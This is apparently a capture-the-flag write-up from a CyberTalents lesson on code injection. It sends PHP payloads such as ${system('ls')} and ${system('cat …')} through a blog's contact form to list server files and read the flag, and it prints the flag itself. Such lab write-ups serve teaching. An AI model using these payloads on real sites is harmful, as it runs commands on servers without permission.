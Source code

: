 # Lesson 14: Code Injection

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lesson/14](https://cybertalents.com/learn/introduction-to-cybersecurity/lesson/14)*

## Introduction

In this lesson, we will learn about Code Injection, and how can we use it to execute commands on the server.

> ### What is Code Injection?
>
> #### Code injection is a web security vulnerability that allows an attacker to execute arbitrary code on the host server that is running an application. Code injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Code injection attacks are possible mainly due to insufficient input validation.

## Challenge

> Name:\
> *Hashable*

---

> Description:\
> *A famous enterprise blog was hacked, can you figure out how it was hacked?*

## Solution

In this challenge, we have a website, we need to get the flag.

So First of all, lets navigate to the contact page, and try to send a message to the admin.

That contains this payload:

```php
${system('pwd')}
```

After sending the request, we will get a response that says:

```html
/var/www/html Message successfully sent!
```

So, we can see that the website is using `system` function to execute the command, and we can use it to get the flag.

Lets try to send this payload to the website:

```php
${system('ls')}
```

After sending the request, we will get a response that says:

```html
about.php contact.php css flag_23894ABCX1.txt footer.php gulpfile.js header.php img index.php js package-lock.json package.json post.php scss vendor Message successfully sent!
```

Here is the flag file, lets read it:

```php
${system('cat flag_23894ABCX1.txt')}
```

After sending the request, we will get a response that says:

```html
18ab51f960bd149bcb2497b9998c752c Message successfully sent!
```

And Here is the flag.

## Flag

> 18ab51f960bd149bcb2497b9998c752c

## References

- [https://www.owasp.org/index.php/Code_Injection](https://www.owasp.org/index.php/Code_Injection)
